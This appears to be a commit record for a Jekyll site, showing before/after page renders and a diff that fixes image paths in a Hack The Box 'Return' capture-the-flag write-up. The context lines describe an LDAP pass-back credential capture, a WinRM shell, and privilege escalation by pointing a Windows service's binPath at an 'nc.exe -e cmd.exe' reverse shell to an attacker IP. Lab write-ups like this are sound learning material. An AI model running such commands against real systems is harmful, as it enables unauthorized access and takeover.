

Before and after one commit to 0o176/0o176.github.io, a Jekyll site: the page built from Content/Writeups/HTB-Return/HTB-Return.md, in a window 1280 px wide and 900 px high, scrolled down 1559 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update HTB-Return.md

````diff
--- a/Content/Writeups/HTB-Return/HTB-Return.md
+++ b/Content/Writeups/HTB-Return/HTB-Return.md
@@ -73,12 +73,12 @@ Dead end at the moment, maybe we will come back when we find some credentials.
 ## Web - TCP 80
 
 The website is a 'HTB Printer Admin Panel'
-![Web](/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-07.png)
+![Web](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-07.png)
 
 # Shell as svc-printer
 
 On the 'Settings' tab ther eis pre-filled form
-![Web2](/HTB-Return/img/Screenshot_2024-10-30_05-11-18.png)
+![Web2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-18.png)
 
 ## Burp
 
@@ -94,8 +94,8 @@ User can only change the Server Address ('ip'), and not port, username or passwo
 
 If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.
 
-![Request](/img/Screenshot_2024-10-30_05-11-42.png)
-![Request2](./img/Screenshot_2024-10-30_05-11-58.png)
+![Request](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-42.png)
+![Request2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-58.png)
 
 ...and it’s trying to authenticate so we have username and password.
 
@@ -103,11 +103,11 @@ If we change the ip to our tun0 IP and start listener on port 389 we should catc
 
 Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM
 
-![WinRm_shell](./HTB-Return/img/Screenshot_2024-10-30_05-25-07.png)
+![WinRm_shell](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-25-07.png)
 
 and get the user flag
 
-![WinRm_shell](./Writeups/HTB-Return/img/Screenshot_2024-10-30_05-31-22.png)
+![WinRm_shell](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-31-22.png)
 
 # Privilege Escalation
 
@@ -115,11 +115,11 @@ and get the user flag
 
 First of all, let's check our privileges,
 
-![priv](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-08.png)
+![priv](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-08.png)
 
 and also groups.
 
-![priv2](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-21.png)
+![priv2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-21.png)
 
 A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.
 
@@ -129,17 +129,17 @@ Server Operators can modify, start, and stop services, we can abuse this by havi
 
 Upload the nc.exe
 
-![nc](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-52-04.png)
+![nc](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-52-04.png)
 
 Now modify a service binary path, stop and restart the service:
 
 ```shell-session
 sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
 ```
-![sh](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-25.png)
+![sh](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-25.png)
 
 Start listener and as soon as we start the service again we catch the shell.
 
-![sh2](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-54.png)
+![sh2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-54.png)
 
-![sh2](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-00.png)
+![sh2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-00.png)
````
